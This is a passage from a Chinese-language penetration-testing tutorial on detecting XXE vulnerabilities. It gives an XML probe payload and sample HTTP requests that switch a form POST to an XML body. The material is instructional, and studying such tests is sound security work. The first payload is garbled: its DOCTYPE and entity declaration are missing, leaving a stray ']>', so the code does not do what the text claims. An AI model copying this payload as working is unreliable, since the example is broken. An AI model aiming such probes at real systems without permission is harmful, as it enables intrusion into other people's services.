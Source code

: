 ### 1.2.1、最简单的测试

如遇与 xml 交互的地方，使用如下 payload，如果返回“this is test”，则证明存在 xxe 漏洞，并且是个有回显的漏洞。

```php
<?xml version="1.0" encoding="UTF-8"?> 
 
]> 
<root>&test;</root>
```

![image.png](assets/1700812438-272fd7a7ec1d2e659fc16bd4b38b58f4.png)

### 1.2.2、添加 xml 代码

```php
修改Content-Type: application/xml
X-Requested-With: XMLHttpRequest
```

例如，一个普通的请求包：

```php
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7
foo=bar
```

可以更改为下面的请求包：

```php
POST /action HTTP/1.0
Content-Type: application/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?>
<foo>bar</foo>
```
